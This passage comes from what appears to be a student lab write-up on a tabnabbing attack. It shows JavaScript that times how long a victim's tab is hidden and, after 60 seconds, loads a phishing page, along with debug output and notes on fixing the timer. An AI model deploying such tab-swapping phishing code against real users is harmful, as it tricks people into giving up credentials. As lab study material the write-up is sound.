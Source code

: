 ```javascript
      // Debug logging every 10 seconds
      if (timeAway % 10 === 0) {
        fetch("/receive/gguruvelli3/2065", {
          method: "POST",
          body: "debug=Time away: " + timeAway + " seconds",
        });
      }

      if (timeAway >= 60) {
        clearInterval(awayTimer);
        fetch("/receive/gguruvelli3/2065", {
          method: "POST",
          body: "debug=60 seconds reached - loading phishing page",
        });
        loadPhishingPage();
      }
    }
  }, 1000);
}
```

### Debug Output

The debug output revealed the issue:

```
debug=Tab hidden - starting away timer
debug=Time away: 10 seconds
debug=Time away: 20 seconds
debug=Time away: 30 seconds
debug=Tab visible - stopping timer, timeAway was: 32
debug=Tab hidden - starting away timer
debug=Time away: 10 seconds
debug=Time away: 20 seconds
debug=Tab visible - stopping timer, timeAway was: 23
debug=Tab hidden - starting away timer
debug=Time away: 10 seconds
debug=Time away: 20 seconds
debug=Time away: 30 seconds
debug=Time away: 40 seconds
debug=Time away: 50 seconds
debug=Time away: 60 seconds
debug=60 seconds reached - loading phishing page
```

The timer was resetting frequently because the bot was switching tabs multiple times during testing. The timer needed to:

1. Clear any existing timer before starting a new one
2. Use the correct interval (1000ms for 1-second increments)
3. Properly reset when the user returns

## Breakthrough #1: Correct Timer Management
